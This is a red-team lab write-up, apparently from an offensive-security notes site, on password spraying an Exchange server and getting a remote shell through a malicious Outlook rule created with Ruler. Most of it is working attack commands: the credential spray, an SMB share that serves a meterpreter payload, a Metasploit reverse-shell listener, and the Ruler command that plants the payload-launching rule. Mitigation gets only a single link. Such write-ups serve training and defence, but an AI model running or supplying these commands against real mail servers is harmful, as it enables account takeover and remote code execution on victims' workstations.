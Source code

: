 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker (with the help of a tool) cycles through a list of possible usernames (found using OSINT techniques against a target company or other means) with a couple of most commonly used weak passwords.&#x20;

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password      |
| ---- | ------------- |
| john | Winter2018    |
| ben  | Winter2018    |
| ...  | Winter2018    |
| john | December2018! |
| ben  | December2018! |
| ...  | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password    |
| ---- | ----------- |
| john | Winter2018  |
| john | Winter2018! |
| john | Password1   |
| ben  | Winter2018  |
| ben  | Winter2018! |
| ben  | Password1   |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:\
  `if emailSubject contains`` `**`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe`&#x20;

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode %}

Finally, we fire up the ruler and create the malicious email rule:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}

